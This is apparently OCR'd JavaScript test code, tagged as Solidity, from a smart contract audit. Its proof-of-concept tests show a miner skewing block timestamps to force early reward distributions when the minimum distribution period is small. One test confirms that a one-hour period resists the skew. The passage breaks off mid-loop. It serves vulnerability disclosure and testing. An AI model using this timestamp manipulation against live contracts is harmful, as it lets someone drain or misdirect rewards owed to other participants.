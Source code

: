 ```solidity
  // Miner skews timestamp forward by a few seconds (plausible within block-producer window)
  await setNextTime(1065); // now > 1060 -> distribution allowed
  await distributor.distributeRewards(publicRewardPoolId);

  // lastCalculatedTimestamp should update to the block time we set
  expect(await distributor.rewardPoolLastCalculatedTimestamp(publicRewardPoolId)).to.eq(1065);

  // At least one deposit pool should have received distributed rewards
  const d0 = await distributor.distributedRewards(dp0Info.rewardPoolId, dp0Info.depositPool);
  const d1 = await distributor.distributedRewards(dp1Info.rewardPoolId, dp1Info.depositPool);
  const sum = d0.add(d1);
  expect(sum.isZero()).to.be.false;
});

it('POC: miner cannot force distribution when minPeriod is large (safe config)', async () => {
  // Large period (e.g., 1 hour)
  await distributor.setMinRewardsDistributePeriod(3600);
  await distributor.setRewardPoolLastCalculatedTimestamp(publicRewardPoolId, 1000);

  await imitateYield([wei(1), wei(1)], wei(100), [wei(5, 6), wei(5)]);

  // Honest time: 20s before boundary (1000 + 3600 = 4600)
  await setNextTime(4600 - 20); // 4580
  await distributor.distributeRewards(publicRewardPoolId);
  expect(await distributor.rewardPoolLastCalculatedTimestamp(publicRewardPoolId)).to.eq(1000);

  // Miner can at best tweak by ~15s; still insufficient (4580 + 15 = 4595)
  await setNextTime(4580 + 15);
  await distributor.distributeRewards(publicRewardPoolId);
  expect(await distributor.rewardPoolLastCalculatedTimestamp(publicRewardPoolId)).to.eq(1000);
});

it('POC: repeated small manipulations — miner can force distributions across multiple cycles when period is small', async () => {
  // Small period so miner has a chance each cycle
  await distributor.setMinRewardsDistributePeriod(60);

  // Start baseline
  const start = 10_000;
  await distributor.setRewardPoolLastCalculatedTimestamp(publicRewardPoolId, start);
  await distributor.setMinRewardsDistributePeriod(60);

  let forcedDistributions = 0;

  // Run a few cycles (conceptual demonstration)
  for (let i = 0; i < 4; i++) {
    // Make sure there is reward this cycle
    await imitateYield([wei(1), wei(1)], wei(50), [wei(2, 6), wei(2)]);

    // Read last timestamp (as number)
    const lastBn = await distributor.rewardPoolLastCalculatedTimestamp(publicRewardPoolId);
    const last = lastBn.toNumber();

    // Honest time progression: set to last + 55 (5s before boundary)
    await setNextTime(last + 55);
    // Without miner skew, distribution will be skipped
    await distributor.distributeRewards(publicRewardPoolId);

    // Miner attempts to push block timestamp a bit forward (within realistic tweak)
    // If pushing to last + 61 ( > last + 60 ) works, the miner forced distribution
    await setNextTime(last + 61);
    await distributor.distributeRewards(publicRewardPoolId);

```